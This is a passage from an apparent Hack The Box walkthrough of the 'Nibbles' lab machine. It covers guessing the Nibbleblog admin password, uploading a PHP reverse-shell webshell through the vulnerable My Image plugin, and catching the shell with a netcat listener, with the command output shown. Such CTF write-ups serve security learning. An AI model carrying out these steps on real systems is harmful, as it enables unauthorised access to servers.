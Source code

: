 ```bash
    20	are
    21	FOOTER
    22	Atom
    23	Top
    24	Powered
    25	Nibbleblog
    26	ATOM
    27	Feed
    28	http
    29	nibbles
    30	htb
    31	nibbleblog
    32	feed
    33	php

```

### Logging in

{{<figure src="/images/nibbles/loggedin.png" title="Logged in">}}

A lockout policy is being enforced. Thus, bruteforcing will not work. I will try the most plausible words from the generated wordlist like `nibbles`, `Nibbles`, etc.

Credentials => `admin`:`nibbles` worked


## Foothold

### Reverse Shell
Reverse shell was obtained by exploiting the My Image plugin. Uploaded `php-reverse-shell.php` from `/usr/share/webshells/php/`. 

{{<figure src="/images/nibbles/plugin.png" title="Vulnerable Pluggin">}}

Reverse Shell Received:
```bash
┌─[babayaga@babayaga-virtualbox]─[~/Desktop/HTB/Linux/Nibbles/exploit]
└──╼ $nc -lvnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.96.84.
Ncat: Connection from 10.129.96.84:47888.
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:26:53 up  4:23,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
```
